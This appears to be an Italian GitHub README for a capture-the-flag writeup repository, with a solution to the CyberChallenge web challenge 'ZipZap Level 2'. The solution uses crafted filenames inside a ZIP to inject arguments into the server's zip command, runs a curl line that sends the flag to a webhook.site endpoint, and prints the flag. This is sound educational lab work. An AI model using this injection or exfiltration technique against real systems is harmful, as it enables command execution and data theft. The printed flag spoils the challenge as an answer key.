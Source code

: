 # CTF Writeups & HTB Machines 💀

In questo repository archiviamo tutte le writeups di CTF (Capture The Flag) e macchine HTB (Hack The Box) che ho completato.

## Contenuti 📚
- **CTF Writeups**: Soluzioni dettagliate delle sfide CTF
- **HTB Machines**: Guide complete per le macchine Hack The Box

## Contributi 🤝
Per contribuire con un writeup, contattami via email: `luca.crippa05@gmail.com`

## Licenza ⚖️
Repository condivisa per scopi educativi. Rispetta sempre le policy delle piattaforme quando condividi materiale.

---

# Writeup: WS_1.03 - ZipZap - Level 2

## Overview
- **Categoria:** Web
- **Autore:** bonaff
- **Difficoltà:** 500
- **Stato:** Up (last checked: 17 minutes ago)
- **URL:** [http://zipzap.challs.cyberchallenge.it/](http://zipzap.challs.cyberchallenge.it/)

## Descrizione 📝
Questa challenge è una continuazione del livello 1 di ZipZap, ma con una svolta: la flag non viene più richiamata tramite symlink all'interno di un file ZIP. Invece, bisogna sfruttare la funzionalità di upload e download multiplo dei file ZIP per eseguire un comando in modo indiretto. In sostanza, bisogna invertire il processo e manipolare il comando eseguito durante il download.

## Soluzione 🎯

### 1. Preparazione dei File
L'idea è creare alcuni file con nomi particolari e uno script di exploit che invia la flag a un server esterno (ad es. tramite un webhook).

#### Creazione dei file:
- **File con nome `-T`:**
  ```bash
  touch -- '-T'
  ```
- **File con nome `-TT`:**
  ```bash
  touch -- '-TT'
  ```
- **Script di exploit:** Creare un file chiamato `bash exploit.sh` (il nome include anche spazi) contenente il comando per eseguire la richiesta al webhook. Ad esempio, in `exploit.sh` inserire:
  ```bash
  curl "https://webhook.site/your_webhook_id?$(/getflag)"
  ```
  > **Nota:** Sostituisci `your_webhook_id` con il tuo ID personale su [Webhook.site](https://webhook.site).

### 2. Creazione dell'Archivio ZIP
Una volta creati i file, comprimi tutto in un archivio ZIP mantenendo intatti i nomi speciali:
```bash
zip archivio.zip -y -- *
```
L'opzione `-y` preserva i file esattamente com'è, inclusi eventuali caratteri problematici.

### 3. Upload e Comando Inverso
- **Upload:** Carica l'archivio ZIP sul sito.
- **Download e Esecuzione:** Al momento del download, il sistema esegue internamente un comando simile a:
  ```
  zip -T -TT 'bash exploit.sh'
  ```
  In questo modo il comando esegue lo script `exploit.sh`, il quale invia una richiesta contenente la flag al tuo webhook.

### 4. Ricezione della Flag
Monitorando il tuo endpoint su Webhook.site, vedrai comparire una richiesta simile a:
```
GET /?CCIT{N0t_enOugh_Quot3s} HTTP/1.1
```
La flag estratta sarà quindi:

## Flag 🏁
```
CCIT{N0t_enOugh_Quot3s}
```

## Lezioni Apprese 📚
- **Manipolazione degli archivi ZIP:** La gestione degli upload e download di file ZIP può essere sfruttata in modo creativo per eseguire comandi indiretti.
- **Uso di nomi particolari:** L'utilizzo di nomi di file come `-T` e `-TT` può influenzare il comportamento dei comandi eseguiti sul server.
- **Esecuzione indiretta:** Combinando upload, nomi di file strategici e download, è possibile ottenere l'esecuzione di codice anche in presenza di limitazioni dirette.

## Tools Utilizzati 🛠️
- **Terminale Linux:** Per creare file, script e l'archivio ZIP.
- **Webhook.site:** Per ricevere la flag.
- **Editor di Testo:** Per modificare lo script `exploit.sh`.

---

*Writeup by Luca Crippa - Last Updated: 2024*
